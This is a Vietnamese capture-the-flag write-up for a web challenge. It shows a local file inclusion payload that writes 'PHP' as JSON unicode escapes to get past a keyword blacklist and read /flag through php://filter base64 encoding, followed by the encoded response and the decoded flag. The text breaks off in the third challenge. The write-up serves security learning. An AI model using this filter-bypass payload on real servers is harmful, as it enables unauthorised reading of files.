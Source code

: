 ## SOLVE

### WEB 1:

Đọc qua src code , có thể thấy web nhận POST request và có thể khai thác LFI.

> Khi gửi request , server trả về
>
> ![img](/imgs/response.png)


> `{"content":"Invalid content"}`
>
> do trong flag có "EHC" , đã blacklist.

Sau khi tra google thì e biết có 1 phương pháp encode base64 bằng php

> Gửi lại request cho server.
>
> ![img](/imgs/invalidreq.png)


> server vẫn trả về `{"content":"Invalid content"}` do trong request có chứa cụm "PHP", đã blacklist .

Sau 1 hồi tra google thì e lạI biết được json có escape char:
`\u+4-digits-hex`
--&gt; có payload

```json
{
    "page":"\u0050\u0048\u0050://filter/convert.base64-encode/resource=/flag"
}
```

> Gửi lại cho server , ta được flag :
>
> ![img](/imgs/flag.png)

> `{"content":"RUhDe3czbGMwbTNfdzNiX3c0cnJqMHJzfQo="}`
> Decode base64 , có
>
> ![img](/imgs/flagdecoded.png)

> FLAG: `EHC{w3lc0m3_w3b_w4rrj0rs}`

### WEB 2:

### WEB 3:( cách làm của em không hay lắm nma kết quả đúng:)))) )

Đầu tiên , em thử dùng by